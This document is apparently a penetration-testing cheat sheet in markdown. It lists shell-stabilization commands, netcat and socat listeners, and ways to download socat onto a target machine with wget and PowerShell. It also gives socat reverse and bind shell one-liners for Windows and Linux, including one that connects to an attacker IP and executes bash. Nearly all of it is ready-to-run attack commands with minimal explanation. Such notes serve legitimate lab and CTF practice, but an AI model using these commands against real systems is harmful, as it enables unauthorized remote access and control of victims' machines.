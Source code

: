 shell stabilization 
```
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
Ctrl + Z
stty raw -echo; fg
stty -a
stty rows 45; columns 118;

# if shell dies, type  reset 


sudo apt install rlwrap
rlwrap nc -nlvp <port>


sudo python3 -m http.server 80
wget <local IP>/socat -O /tmp/socat     target machine

# powershell
Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe

```



## socat 

reverse  shell
```
# ----------------- basic reverse shell listener (windows/linux)
socat TCP-L <port> -
nc -nlvp <port>

# windows
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes

# linux
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"

# ----------------- bind shell
# linux
socat TCP-L:<PORT> EXEC:"bash -li"

# windows
socat TCP-L:<PORT> EXEC:powershell.exe,pipes

socat TCP:<TARGET-IP>:<TARGET-PORT> -


##---------------- stable linux rev shell
# linux (must have socat installed)     -d -d for verbosity
socat TCP-L:<port> FILE:`tty`,raw,echo=0

socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane

sudo rlwrap nc -nlvp 443

```
